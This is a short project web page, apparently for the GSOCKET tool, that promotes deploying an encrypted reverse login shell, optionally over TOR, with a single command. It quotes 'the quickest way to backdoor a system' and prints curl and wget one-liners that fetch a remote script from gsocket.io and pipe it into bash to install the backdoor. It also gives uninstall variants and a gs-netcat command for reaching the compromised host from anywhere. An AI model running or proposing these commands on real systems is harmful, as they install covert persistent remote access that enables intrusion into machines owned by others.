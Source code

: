 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
(To use gs-netcat you need to [install gsocket]({{site.github.repository_url}}\#installation-anchor))

---

This is just one example of GSOCKET. Visit the [GitHub Page]({{site.github.repository_url}}) for more.  

---
{:refdef: style="text-align: center;"}
Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from a workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

